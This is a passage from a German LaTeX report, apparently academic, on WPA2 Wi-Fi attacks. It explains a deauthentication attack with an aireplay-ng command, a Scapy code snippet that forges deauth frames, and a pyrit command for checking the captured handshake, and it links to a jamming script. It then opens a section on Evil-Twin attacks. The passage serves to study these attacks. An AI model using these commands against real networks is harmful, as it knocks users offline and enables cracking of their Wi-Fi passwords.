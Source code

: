 Sind die MAC-Adressen des Clients und des AP bekannt startet der Angreifer mit Hilfe von \texttt{aireplay-ng} den Deauth-Angriff: 
\begin{Verbatim}
	aireplay-ng -0 <Anzahl> -a <AP-MAC> -c <Client-MAC> <Interface>
\end{Verbatim}
\texttt{-0} kennzeichnet dabei den Deauth-Angriff.
Via \texttt{<Anzahl>} kann spezifiziert werden, wie viele Deauthentication-Frames an das Ziel gesendet werden (bzgl. Anzahl siehe oben).
Ein Nachteil dieses Ansatzes ist, dass \texttt{aireplay-ng} mit dem Aussenden der Deauthentication-Frames wartet bis es einen Beacon-Frame des Access-Points erhalten hat -- eine technische Notwendigkeit hierfür besteht unserer Ansicht nach nicht.
Alternativ kann die Deauthentifikation mit wenigen Zeilen Python-Code unter Verwendung der Bibliothek \texttt{Scapy} durchgeführt erden.

\begin{verbatim}
	# Construct a deauth packet, subtype 12 
	# is the 802.11 code for a deauthentication-frame
	# bssid is equivalent to the MAC of the AP
	p = scapy.RadioTap() / scapy.Dot11(type=0, subtype=12, addr1=clientMac, addr2=bssid,
	addr3=bssid) / scapy.Dot11Deauth(reason=1)
	scapy.send(p)
\end{verbatim}

Nach dem Angriff wird die eingangs gestartete Netzwerkaufzeichnung mit \texttt{airodump-ng} gestoppt, um den Dump mithilfe eines geeigneten Tools, zum Beispiel \texttt{Pyrit}, zu analysieren. Dieser Schritt ist optional, die schnelle Verifikation womöglich jedoch hilfreich\footnote{Wurde die MAC-Adresse des Access-Points nicht beim Aufzeichnen des Verkehrs spezifiziert sollte sie nun mit dem Flag \texttt{-b} festgelegt werden.
Andernfalls wird \texttt{Pyrit} für eventuell weitere aufgezeichnete Handshakes von anderen Netzwerken positiv antworten.}:
\begin{Verbatim}
	pyrit -r <Dump-Name> -b <AP-MAC> analyze
\end{Verbatim}
Ein im Rahmen der Arbeit geschriebenes Python-Skript, welches unter Anderem die oben beschriebenen Schritte automatisiert, findet sich auf \textit{GitHub}\footnote{\href{https://github.com/kastel-wpa2/pyshark-scripts/blob/master/deauth_jammer.py}{https://github.com/kastel-wpa2/pyshark-scripts/blob/master/deauth\_jammer.py}}.
Der Versuch des Brechens des erlangten Handshakes wird in Unterkapitel~\ref{subs:cracking} erläutert.

\subsubsection{\enquote{Evil-Twin}-Angriff}\label{subs:evil-twin-attack}
Ein Nachteil des Deauth-Angriffs ist, dass sowohl Client als auch AP in Reichweite des Angreifers sein müssen (\enquote{on-site}), um den Handshake zwischen beiden abfangen zu können. Der Evil-Twin-Angriff als \enquote{off-site}-Attacke hebt diese Beschränkung auf.\\

